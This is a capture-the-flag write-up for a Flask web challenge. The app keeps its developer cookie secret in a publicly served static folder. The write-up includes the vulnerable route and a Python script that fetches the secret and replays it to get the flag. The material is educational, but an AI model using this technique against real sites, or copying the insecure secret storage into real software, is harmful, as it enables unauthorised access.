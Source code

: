 # Renderer – Web Challenge (100 pts)
## Challenge Description
> Introducing Renderer! A free-to-use app to render your images!  

We are given a Flask application source code and asked to retrieve the flag.  

---

## Source Code Analysis
Relevant code snippet:

```python
@app.route('/developer')
def developer():
    cookie = request.cookies.get("developer_secret_cookie")
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if correct == '':
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if cookie == correct:
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
        return f"Welcome! There is currently 1 unread message: {open('flag.txt').read()}"
    else:
        return "You are not a developer!"
```

---

## 📌 Observations
- The `/developer` route checks for a cookie named **`developer_secret_cookie`**.  
- The valid cookie value is stored in **`./static/uploads/secrets/secret_cookie.txt`**.  
- Flask serves the `static/` folder publicly, so this file can be retrieved directly.  
- By sending the correct cookie value to `/developer`, the application will disclose the flag from `flag.txt`.  

---

## Exploitation
```python
import requests
base_url = "http://play.scriptsorcerers.xyz:10374"
# Step 1: Retrieve the secret cookie value
secret_cookie_url = f"{base_url}/static/uploads/secrets/secret_cookie.txt"
resp = requests.get(secret_cookie_url)
secret_cookie = resp.text.strip()
print(f"[+] Retrieved secret cookie: {secret_cookie}")

# Step 2: Use it in a request to /developer
cookies = {"developer_secret_cookie": secret_cookie}
developer_url = f"{base_url}/developer"
resp = requests.get(developer_url, cookies=cookies)

print("[+] Response from server:")
print(resp.text)
```
{: file="solve_Renderer.py" }

